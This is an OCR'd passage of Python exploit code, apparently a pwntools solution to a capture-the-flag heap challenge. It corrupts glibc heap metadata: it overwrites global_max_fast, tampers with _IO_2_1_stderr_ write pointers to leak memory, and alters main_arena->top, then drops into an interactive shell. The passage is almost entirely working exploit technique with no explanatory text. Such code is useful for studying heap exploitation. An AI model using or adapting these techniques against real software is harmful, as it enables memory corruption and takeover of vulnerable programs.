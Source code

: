 ```python
            dele(1)
            edit(8, '\x00' * 0x88 + p64(0x91) + '\x00' * 0x10)

        for i in range(7):
            dele(10)
            edit(18, '\x00' * 0x10)
        dele(1)
        dele(10)
        #------------------------------------------------------------

        add(0x58) #1
        add(0x18) #10

        add(0x3D8) #19
        add(0x18) #20

        edit(8, '\x00' * 0x88 + p64(0x91) + '\x80\xdb')
        add(0x88) # 21
        add(0x88) # 22 global_max_fast

        edit(18, '\xc0\xb5')
        add(0x3F0) # 23
        add(0x3F0) # 24 _IO_2_1_stderr_
        #------------------------------------------------------------
        edit(22, '\xFF' * 8) # change global_max_fast
        edit(8, '\x00' * 0x88 + p64(0x14C1))# _IO_write_base
        dele(21)
        edit(8, '\x00' * 0x88 + p64(0x14D1))# _IO_write_ptr
        dele(21)
        edit(8, '\x00' * 0x88 + p64(0x14E1))# _IO_write_end
        dele(21)
        #------------------------------------------------------------
        # change main_arena->top
        for i in range(8):
            edit(8, '\x00' * 0x88 + p64(0xC1) + '\x00' * 0x10)
            dele(21)

        edit(24, p64(0xfbad1800) + '\x00' * 0x19)
        edit(22, p64(0x80))
        add(0x300)
        break
    except:
        p.close()

p.interactive()
```

